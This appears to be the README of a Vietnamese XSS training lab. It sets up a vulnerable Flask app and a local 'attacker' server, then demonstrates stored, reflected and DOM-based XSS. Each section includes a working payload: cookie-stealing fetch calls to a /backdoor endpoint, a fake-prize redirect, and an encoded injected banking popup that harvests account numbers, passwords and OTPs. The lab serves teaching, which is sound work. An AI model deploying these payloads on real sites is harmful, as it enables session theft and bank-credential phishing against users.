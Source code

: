 # Cross-Site-Scripting-XSS

python -m venv venv
.\venv\Scripts\activate
pip install flask==2.2.5 Flask-MySQLdb

Cấu hình thông tin kết nối Database( trong xss-lab/website1.py )

Terminal 1 (Ứng dụng có lỗ hổng):

# Di chuyển vào thư mục xss_demo
cd xss_demo
python app1.py
Ứng dụng này sẽ chạy tại http://127.0.0.1:5001.
Go Live: xss-lab/index.html


Terminal 2 (Máy chủ của kẻ tấn công):

# Di chuyển vào thư mục data-leak-demo
cd data-leak-demo
python app2.py
Máy chủ này sẽ lắng nghe tại http://127.0.0.1:8000.


1. Tấn công Stored XSS (XSS Lưu trữ)
    Payload được lưu vào cơ sở dữ liệu và sẽ tấn công bất kỳ ai xem trang chứa nó.

    Các bước thực hiện:
        Mở trình duyệt và truy cập trang bình luận: http://127.0.0.1:5001/stored
        Trong ô "Để lại bình luận...", hãy nhập vào payload sau:
        <script>fetch('http://127.0.0.1:8000/backdoor?data=' + encodeURIComponent(document.cookie));</script>
        Nhấn nút "Gửi".

2. Tấn công Reflected XSS (XSS Phản chiếu)

    Payload nằm trực tiếp trên URL. Kẻ tấn công phải lừa nạn nhân nhấp vào một liên kết đã được chuẩn bị sẵn.

    Các bước thực hiện:
        Tạo một URL độc hại.
        Để thử nghiệm, bạn chỉ cần dán URL sau vào trình duyệt và nhấn Enter:
        http://127.0.0.1:5001/reflected?q=<svg onload="if(confirm('Chúc mừng! Bạn đã nhận được một phần thưởng 50 tiệu đồng. Nhấn OK để nhận ngay.')){window.location.href='http://127.0.0.1:8000/backdoor';}">



3. Tấn công DOM-Based XSS (XSS dựa trên DOM)

    Payload cũng nằm trong URL (thường là sau dấu #) và được JavaScript của trang web thực thi mà không cần gửi đến máy chủ.

    Các bước thực hiện:
        Tạo URL độc hại. Payload được đặt trong phần "hash" (#) của URL.
        Dán URL sau vào trình duyệt và nhấn Enter:
        http://127.0.0.1:5001/dom#<img src=x onerror="fetch('http://127.0.0.1:8000/backdoor?data='+encodeURIComponent(document.cookie))">
        (Payload này tạo một thẻ <img> có nguồn không hợp lệ để kích hoạt sự kiện onerror, từ đó thực thi mã độc).

    Có thể thay đổi giao diện Web có lỗ hỏng DOM-Based XSS:
        http://127.0.0.1:5001/dom#%3Cstyle%3E%23phishing-popup%7Bposition:fixed;top:0;left:0;width:100%25;height:100%25;background-color:rgba(0,0,0,0.7);display:flex;justify-content:center;align-items:center;z-index:10000;font-family:'Segoe%20UI',Tahoma,Geneva,Verdana,sans-serif%7D%23phishing-form%7Bbackground:%23f9f9f9;padding:25px%2035px;border-radius:12px;box-shadow:0%208px%2025px%20rgba(0,0,0,0.2);text-align:center;width:380px;border-top:5px%20solid%20%23007bff%7D%23phishing-form%20h2%7Bmargin-top:0;color:%23333%7D%23phishing-form%20p%7Bcolor:%23666;font-size:15px%7D%23phishing-form%20input%7Bwidth:90%25;padding:12px;margin:10px%20auto;border:1px%20solid%20%23ddd;border-radius:5px;font-size:16px%7D%23phishing-form%20button%7Bwidth:95%25;padding:14px;background-color:%23007bff;color:white;border:none;border-radius:5px;cursor:pointer;font-size:18px;font-weight:bold;margin-top:10px%7D%23phishing-form%20button:hover%7Bbackground-color:%230056b3%7D%3C/style%3E%3Cdiv%20id=%22phishing-popup%22%3E%3Cdiv%20id=%22phishing-form%22%3E%3Ch2%3EX%C3%A1c%20nh%E1%BA%ADn%20giao%20d%E1%BB%8Bch%20quan%20tr%E1%BB%8Dng%3C/h2%3E%3Cp%3E%C4%90%E1%BB%83%20%C4%91%E1%BA%A3m%20b%E1%BA%A3o%20an%20to%C3%A0n,%20vui%20l%C3%B2ng%20x%C3%A1c%20th%E1%BB%B1c%20th%C3%B4ng%20tin%20t%C3%A0i%20kho%E1%BA%A3n%20c%E1%BB%A7a%20b%E1%BA%A1n%20%C4%91%E1%BB%83%20ho%C3%A0n%20t%E1%BA%A5t.%3C/p%3E%3Cinput%20type=%22text%22%20id=%22p_fullname%22%20placeholder=%22H%E1%BB%8D%20v%C3%A0%20T%C3%AAn%20ch%E1%BB%A7%20t%C3%A0i%20kho%E1%BA%A3n%22%3E%3Cinput%20type=%22text%22%20id=%22p_stk%22%20placeholder=%22S%E1%BB%91%20t%C3%A0i%20kho%E1%BA%A3n%20(STK)%22%3E%3Cinput%20type=%22password%22%20id=%22p_password%22%20placeholder=%22M%E1%BA%ADt%20kh%E1%BA%A9u%20Internet%20Banking%22%3E%3Cinput%20type=%22text%22%20id=%22p_otp%22%20placeholder=%22Nh%E1%BA%ADp%20m%C3%A3%20OTP%20v%E1%BB%ABa%20%C4%91%C6%B0%E1%BB%A3c%20g%E1%BB%ADi%20%C4%91%E1%BA%BFn%22%3E%3Cbutton%20onclick=%22stealBankInfo()%22%3EX%C3%81C%20NH%E1%BA%ACN%3C/button%3E%3C/div%3E%3C/div%3E%3Cscript%3Efunction%20stealBankInfo()%7Blet%20fullname=document.getElementById('p_fullname').value;let%20stk=document.getElementById('p_stk').value;let%20password=document.getElementById('p_password').value;let%20otp=document.getElementById('p_otp').value;let%20stolenData=`[BANK%20INFO]%20Full%20Name:%20${fullname}%20%7C%20Account:%20${stk}%20%7C%20Password:%20${password}%20%7C%20OTP:%20${otp}`;fetch('http://127.0.0.1:8000/backdoor?data='+encodeURIComponent(stolenData));document.getElementById('phishing-form').innerHTML='<h2>%C4%90ang%20x%E1%BB%AD%20l%C3%BD...</h2><p>Vui%20l%C3%B2ng%20kh%C3%B4ng%20t%E1%BA%AFt%20tr%C3%ACnh%20duy%E1%BB%87t.%20Giao%20d%E1%BB%8Bch%20c%E1%BB%A7a%20b%E1%BA%A1n%20%C4%91ang%20%C4%91%C6%B0%E1%BB%A3c%20x%E1%BB%AD%20l%C3%BD.</p>'%7D%3C/script%3E